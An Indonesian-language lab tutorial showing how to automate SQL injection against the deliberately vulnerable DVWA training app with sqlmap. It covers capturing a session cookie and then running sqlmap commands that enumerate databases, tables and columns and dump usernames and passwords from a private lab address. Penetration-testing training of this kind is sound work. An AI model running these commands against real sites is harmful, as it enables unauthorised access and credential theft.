 Lesson 7: Automate SQL Injection with SqlMap

1. Didalam website DVWA, pilih tab SQL Injection.

2. Nyalakan add-ons Temper Data di browser.

3. Masukkan 1 pada form User ID, kemudian submit. Sebuah pop-up akan muncul, hilangkan centang untuk continuous temper. Kemudian klik submit.
picture(34)

4. Pilih data kedua, kemudian salin bagian referer dan cookienya.
picture(35)

5. Paste ke notepad, seharusnya semuanya akan terlihat seperti dibawah ini. Didalamnya akan ada PHPSESSID yang akan kita gunakan dalam perintah berikutnya.
picture(36)

6. Pindah ke folder dimana sqlmap berada (/pentest/database/sqlmap). Jalankan sqlmap dnegan perintah berikut ini.
"./sqlmap.py -u "http://10.0.1.100/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=7a1cd3cef9aa5096f198d9e0307c25f7; security=low" -b --current-db --current-user"
///////gagal///////

7. Mendapatkan daftar dari semua database yang ada:
"./sqlmap.py -u "http://10.0.1.100/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=7a1cd3cef9aa5096f198d9e0307c25f7; security=low" --dbs"
picture(38)

8. Mendapatkan semua tabel dan konten di database dvwa:
"./sqlmap.py -u "http://10.0.1.100/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=7a1cd3cef9aa5096f198d9e0307c25f7; security=low" -D dvwa --tables"
picture(39)

9. Mendapatkan semua column yang ada di dalam tabel users di database dvwa:
"./sqlmap.py -u "http://10.0.1.100/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=7a1cd3cef9aa5096f198d9e0307c25f7; security=low" -D dvwa -T users --columns"
picture(40)

10. Mendapatkan semua user dan passwordnya dari database dvwa:
"./sqlmap.py -u "http://10.0.1.100/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=7a1cd3cef9aa5096f198d9e0307c25f7; security=low" -D dvwa -T users -C user,password --dump"
pilih "y" atau Y untuk semua pilihan dan kosongkan dictionary lokasi.
picture(41)

